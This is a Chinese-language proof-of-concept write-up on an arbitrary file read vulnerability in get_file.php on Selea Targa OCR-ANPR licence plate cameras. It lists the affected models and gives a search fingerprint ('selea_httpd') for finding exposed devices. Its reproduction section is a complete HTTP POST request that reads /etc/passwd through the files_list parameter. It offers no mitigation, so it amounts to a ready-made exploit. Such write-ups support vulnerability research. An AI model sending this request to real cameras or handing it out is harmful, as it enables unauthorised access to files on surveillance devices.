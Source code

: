 # Selea OCR-ANPR摄像机 get_file.php 任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 get_file.php存在 任意文件读取漏洞，通过构造特殊请求获取服务器文件

## 漏洞影响

```
Selea Selea Targa IP OCR-ANPR Camera iZero
Selea Selea Targa IP OCR-ANPR Camera Targa 512
Selea Selea Targa IP OCR-ANPR Camera Targa 504
Selea Selea Targa IP OCR-ANPR Camera Targa Semplice
Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM
Selea Selea Targa IP OCR-ANPR Camera Targa 805
Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX
Selea Selea Targa IP OCR-ANPR Camera Targa 750
Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB
```

## 网络测绘

```
"selea_httpd"
```

## 漏洞复现

登录页面如下

![](images/202202140933858.png)

发送如下请求包

```plain
POST /cgi-bin/get_file.php HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: lang=en; PHPSESSID=bvib0lq6lahlhbjnfv91k13ou0

name=test&files_list=/etc/passwd
```

![](images/202202140933222.png)
